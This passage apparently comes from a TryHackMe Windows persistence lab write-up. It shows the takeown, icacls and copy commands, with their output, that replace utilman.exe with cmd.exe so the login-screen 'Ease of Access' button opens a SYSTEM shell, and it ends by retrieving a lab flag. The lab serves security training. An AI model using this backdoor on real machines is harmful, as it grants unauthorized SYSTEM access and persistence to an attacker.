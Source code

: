 When we click the ease of access button on the login screen, it executes`C:\Windows\System32\Utilman.exe` with SYSTEM privileges. If we replace it with a copy of`cmd.exe`, we can bypass the login screen again.

To replace`utilman.exe`, we do a similar process to what we did with`sethc.exe`:

```shell-session
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
 1 file(s) copied.
```

To trigger our terminal, we will lock our screen from the start button:

![lock session](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/1f94b28361ffebbf70d280755821bc12.png)

And finally, proceed to click on the "Ease of Access" button. Since we replaced`utilman.exe` with a`cmd.exe` copy, we will get a command prompt with SYSTEM privileges:

![backdoored utilman](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/0fe1901296108241e2700abf87fa6a27.png)

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

From your newly obtained terminal, execute`C:\flags\flag15.exe` to get your flag


Once we do all steps, when we click on the utilman, we will get our shell:

![Pasted image 20250516115028.png](../../../IMAGES/Pasted%20image%2020250516115028.png)
